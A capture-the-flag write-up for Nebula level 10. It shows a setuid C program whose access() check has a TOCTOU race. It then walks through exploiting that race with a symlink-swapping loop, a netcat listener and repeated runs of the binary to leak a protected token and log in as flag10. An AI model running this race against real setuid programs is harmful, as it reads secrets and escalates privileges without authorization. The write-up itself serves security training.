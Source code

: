 # Level 10

The setuid binary at **/home/flag10/flag10** binary will upload any file given, as long as it meets the requirements of the access() system call.

To do this level, log in as the **level10** account with the password **level10**. Files for this level can be found in /home/flag10.

## Source Code

```c++
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

## Writeup

In this challenge there are one binary (**flag10**) and a file (**token**) inside the **/home/flag10** directory.

```bash
level10@nebula:/home/flag10$ ll
total 14
drwxr-x--- 2 flag10 level10   93 2011-11-20 21:22 ./
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ../
-rw-r--r-- 1 flag10 flag10   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag10 flag10  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag10 level10 7743 2011-11-20 21:22 flag10*
-rw-r--r-- 1 flag10 flag10   675 2011-05-18 02:54 .profile
-rw------- 1 flag10 flag10    37 2011-11-20 21:22 token
```

With the binary **flag10** we can send the content of a file to another pc with a tcp socket on **18211** port.

The **access()** function check the real permission, not the effective permission. That means that the file in input must be readable by the **flag10** account.

Let's create a file on **/tmp** directory:

```bash
touch /tmp/token
```

Now we have created a file readable by **flag10** account.

In the code there is a **TOCTOU** problem (**T**ime **O**f **C**heck **T**ime **O**f **U**se).

There are some operation among the time of check the permission on the file and the time of use this file.

The idea is use a file that the user is able to read and change it to another one while the program execute the operations among the time of use.

To do it, let's create a script that create a symbolic link of the file created on /tmp directory and continually change it into the real **token** file:

```bash
while :; do ln -fs /tmp/token /tmp/link; ln -fs /home/flag10/token /tmp/link; done
```

Open a terminal in **ssh** and run it forever.

After open another terminal in **ssh** and **listen** for tcp connection on port 18211.
We must run the program multiple times to exploit it, because is a race condition.
Let's write the output of every connection on a file:

```bash
while :; do nc.traditional -vlp 18211 >> /tmp/server.txt; done
```

Now we can exploit the binary by execute it with the lower sheduler priority with the command **nice**:

```bash
while :; do nice -n 19 /home/flag10/flag10 /tmp/link 127.0.0.1; done
```

After a couple of seconds stop the program and check on the **/tmp/server.txt** file if the content of token file has been written:

```bash
cat /tmp/server.txt | grep -e ".oO Oo." -e "\n" -v | head -1
```

This is the token:

```bash
level10@nebula:~$ cat /tmp/server.txt | grep -e ".oO Oo." -e "\n" -v | head -1
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```

We can now use it to login with **flag10** account:

```bash
su flag10
```

We are now **flag10**:

```bash
sh-4.2$ id
uid=989(flag10) gid=989(flag10) groups=989(flag10)
```

Finally we can launch the **getflag** command:

```bash
sh-4.2$ getflag
You have successfully executed getflag on a target account
```